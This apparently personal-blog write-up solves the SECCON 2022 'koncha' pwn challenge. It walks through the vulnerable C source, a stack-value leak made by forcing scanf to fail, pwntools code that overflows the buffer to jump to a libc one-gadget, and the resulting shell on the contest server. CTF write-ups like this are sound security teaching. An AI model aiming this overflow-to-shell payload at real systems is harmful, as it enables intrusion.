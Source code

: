 ```yaml
---
title: 'koncha - SECCON CTF 2022'
permalink: /writeups/seccon2022/koncha
---
```


> koncha was a easy pwn challenge from SECCON 2022 quals

## Analysis

### checksec

```bash
Arch:     amd64-64-little
RELRO:    Full RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      PIE enabled
```

### file command output

```bash
chall: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter ld-2.31.so, BuildID[sha1]=444af262ad4af23ccec1cb9e3c7314c3b225a9ed, for GNU/Linux 3.2.0, not stripped
```

### Code

In this challenge the source code was provided, so reverse will be done quickly.

```c
#include <stdio.h>
#include <unistd.h>

int main() {
  char name[0x30], country[0x20];

  /* Ask name (accept whitespace) */
  puts("Hello! What is your name?");
  scanf("%[^\n]s", name);
  printf("Nice to meet you, %s!\n", name);

  /* Ask country */
  puts("Which country do you live in?");
  scanf("%s", country);
  printf("Wow, %s is such a nice country!\n", country);

  /* Painful goodbye */
  puts("It was nice meeting you. Goodbye!");
  return 0;
}

__attribute__((constructor))
void setup(void) {
  setbuf(stdin, NULL);
  setbuf(stdout, NULL);
  alarm(180);
}
```

It is easy to see that this is a program that asks the user for its name and contry, prints some welcome and goodbye messages and returns. The vulnerability is also obvious. Both scanfs expose a buffer overflow vulnerability since:
  
- The first scanf will read until a new line ('\n') is found, without any caracter number limits
- The second scanf will read until a white caracter is found (space, new line or null byte), without any caracter limits.

This simply shows that this is a simple return to one gadget challenge.  
However, this binary has PIE turned on and we must assume ASLR is enabled on the host machine, thus we need leaks to bypass this mitigations in order to performed the usuall exploit.  

## Exploit

### PIE and ASLR leak

The only way to have a leak, would be to force the printfs to leak stack values. Since scanf always writes a null byte the end of a string, there won't be any non null terminated strings for printf to leak values. For this reason, one of the scanfs needs to fail, so that nothing is written on the buffers and printf prints the buffers as they were initialized. From scanf's man page:

```text
The set excludes those characters if the first character after the open bracket is a
circumflex ^
```

Therefore, passing a single '\n' will prevent scanf from writing on the buffer, and, consequently the printf will leak a stack value (note that the buffers were allocated in the stack, meaning that they will leak a stack value). This beats PIE and ASLR, as we can compute our targeted destinations as offsets of this leak. Bellow is the code for obtaining the leak and parsing it.

```python
io.sendline()
io.recvline()
line = io.recvline(keepends=True)[:-2].split(b' ')
leak = u64(line[-1].ljust(8,b'\x00'))
log.info(f"Leaked {hex(leak)}")
log.info(f"One gadget is at offset {hex(leak - OFFSET)}")
```

### Shell

Since PIE and ASLR was beaten, all that is left to do is overflow the country buffer (using the second scanf), overwrite main's return address and jump to one gadget. However, first we need to choose a one gadget to jump to

```text
0xe3afe execve("/bin/sh", r15, r12)
constraints:
  [r15] == NULL || r15 == NULL
  [r12] == NULL || r12 == NULL

0xe3b01 execve("/bin/sh", r15, rdx)
constraints:
  [r15] == NULL || r15 == NULL
  [rdx] == NULL || rdx == NULL

0xe3b04 execve("/bin/sh", rsi, rdx)
constraints:
  [rsi] == NULL || rsi == NULL
  [rdx] == NULL || rdx == NULL
```

I chose the second one gadget, because at the time main returns all its constrains were already met. I calculated that the one gadget is always at an offset of -0x10d7e7 from the leak that we obtained. Note that the other one gadgets might be possible to use, however they might require aditional gadgets to ensure the constrains are met.  
As you can see bellow I got a shell and the flag.

```python
def overflow():
        p = '1'*(0x60-8)
        return p.encode()
io.sendline(overflow() + p64(leak - OFFSET))
io.interactive()
```

This is just the overflow and RCE part of the exploit.

```bash
[+] Opening connection to koncha.seccon.games on port 9001: Done
[*] Leaked 0x7fc6acd3b2e8
[*] One gadget is at 0x7fc6acc2db01
[*] Switching to interactive mode
$ cat flag-50d05c4f3e767dfc58f5cde347c36370.txt
SECCON{I_should_have_checked_the_return_value_of_scanf}
```
